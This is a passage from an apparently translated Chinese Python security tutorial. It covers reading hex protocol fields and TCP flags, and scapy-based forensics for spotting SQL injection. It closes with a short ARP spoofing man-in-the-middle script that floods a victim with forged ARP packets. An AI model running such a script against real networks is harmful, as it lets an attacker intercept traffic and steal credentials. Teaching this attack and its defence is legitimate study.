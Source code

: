 ![](img/a04b900f-9919-4596-a73b-d048281311c5.png)

协议输出现在不是 TCP、UDP 等，而是十六进制值：

**006 指的是 IP 协议字段**；它指的是数据部分中使用的下一级协议。长度为 8 位。在这种情况下，十六进制（06）（00000110）= TCP 在十进制中为 6。

2、16、18、24 等是 TCP 头部的标志，以十六进制格式表示。例如，18 在二进制中是 11000，正如我们已经知道的那样，这将激活 ACK + PSH。

# 使用 scapy 进行网络取证

Scapy 还可用于从 SQL 注入攻击中执行网络取证或从服务器提取 ftp 凭据。通过使用 Python scapy 库，我们可以确定攻击者何时/在哪里/如何执行 SQL 注入。借助 Python scapy 库的帮助，我们可以分析网络数据包的 pcap 文件。

使用 scapy，我们可以分析网络数据包并检测攻击者是否正在执行 SQL 注入。

我们将能够分析、拦截和解剖网络数据包，并重用它们的内容。我们有能力操作由我们捕获或生成的 PCAP 文件中的信息。

例如，我们可以开发一个简单的 ARP MITM 攻击脚本。

您可以在**`arp_attack_mitm.py` **文件中找到以下代码：

```py
from scapy.all import *
import time

op=1 # Op code 1 for query arp
victim="<victim_ip>" # replace with the victim's IP
spoof="<ip_gateway>" # replace with the IP of the gateway
mac="<attack_mac_address>" # replace with the attacker's MAC address

arp=ARP(op=op,psrc=spoof,pdst=victim,hwdst=mac)

while True:
 send(arp)
 time.sleep(2)
```
